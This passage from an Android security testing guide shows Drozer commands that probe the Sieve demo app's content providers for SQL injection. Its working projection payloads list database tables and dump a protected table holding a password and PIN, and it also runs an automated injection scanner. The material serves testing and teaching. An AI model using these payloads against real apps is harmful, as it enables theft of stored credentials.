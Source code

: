 * Delete record

```
dz> run app.provider.delete content://settings/secure
                --selection "name=?"
                --selection-args my_setting
```

##### SQL Injection in Content Providers

The Android platform promotes the use of SQLite databases for storing user data. Since these databases use SQL, they can be vulnerable to SQL injection. The Drozer module `app.provider.query` can be used to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'"
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords

dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'"
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```

If vulnerable to SQL Injection, the application will return a verbose error message. SQL Injection in Android can be exploited to modify or query data from the vulnerable content provider. In the following example, the Drozer module `app.provider.query` is used to list all tables in the database:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "*
FROM SQLITE_MASTER WHERE type='table';--" 
| type  | name             | tbl_name         | rootpage | sql              |
| table | android_metadata | android_metadata | 3        | CREATE TABLE ... | 
| table | Passwords        | Passwords        | 4        | CREATE TABLE ... |
| table | Key              | Key              | 5        | CREATE TABLE ... |
```

SQL Injection can also be exploited to retrieve data from otherwise protected tables:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "* FROM Key;--"
| Password | pin |
| thisismypassword | 9876 |
```

These steps can be automated by using the `scanner.provider.injection` module, which automatically finds vulnerable content providers within an app:

```
dz> run scanner.provider.injection -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve... 
Injection in Projection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
Injection in Selection:
  content://com.mwr.example.sieve.DBContentProvider/Keys/
  content://com.mwr.example.sieve.DBContentProvider/Passwords
  content://com.mwr.example.sieve.DBContentProvider/Passwords/
```
